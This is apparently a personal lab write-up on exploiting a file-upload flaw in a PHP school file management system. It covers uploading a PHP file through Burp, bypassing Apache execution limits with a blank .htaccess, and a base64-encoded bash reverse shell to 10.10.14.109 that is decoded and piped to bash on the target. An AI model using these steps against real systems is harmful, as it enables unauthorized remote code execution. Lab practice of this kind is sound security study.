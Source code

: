 [Source Code](https://www.sourcecodester.com/php/14155/school-file-management-system.html)

![1080](ippsecroute-savefilephp.png)
Create a directory of the stud_no if does not exist and copy file in to the directory

1. Try upload .php file
2. Proxy in burp and start changing - importantly for myself NOTE THE CHANGES - [[Networked-Helped-Through]], was helped-through because this!
3. Check any extension is it is getting executed on request to the file in the webserver directory

.htaccess file in Apache can block excution of php 
1. Upload a blank .htaccess to trick the webserver 

![](useyourownhtaccess.png)
And we have code execution...Ippsec Rocks!
![1080](nvmshellid.png)

Another way would be to change the stud_no, because the .htaccess only would cover a set directory. 

![1080](burpproblems.png)

It seems like it may have patched out the unintended route... sort of, it is deletign extra directories created, but you can still get a reverse shell. I went back as I remember encoded payload are a must try for me these days. 

Covert to base64 with 0 column wrapping to prevent multi-line base64 string
```bash
​# Create payload
echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.14.109/1337 <&1'" | base64 -w0
# -w0 means wrap 0 columns 
```
Decode Payload on target machine:
```bash
echo "L2Jpbi9iYXNoIC1jICdleGVjIGJhc2ggLWkgJj4vZGV2L3RjcC8xMC4xMC4xNC4xMDkvMTMzNyA8JjEnCg==" | base64 -d | bash
```

![](Ihadcreated69and70.png)
It is probably just a cronjob so you have to do it within a minute interval.

Linux root file system `ls -la` shows we are in a `.dockerenv`
![](weareinanotherdockercontainer.png)

Went back to the video before doing my own checks just to see if there are more modern ones that have not appeared in THM rooms or Videos or blogs I have read.

![](seemspatched.png)
They patched the box. The hostname is also indicator of being in docker

Ippsec filesystem knownledge is awesome, but regardless -

```bash
find . -type d -name *onf* 2>/dev/null
find . -type f -name *onf* 2>/dev/null
grep -r -e require_once
# Find where it communicates with any databases
```
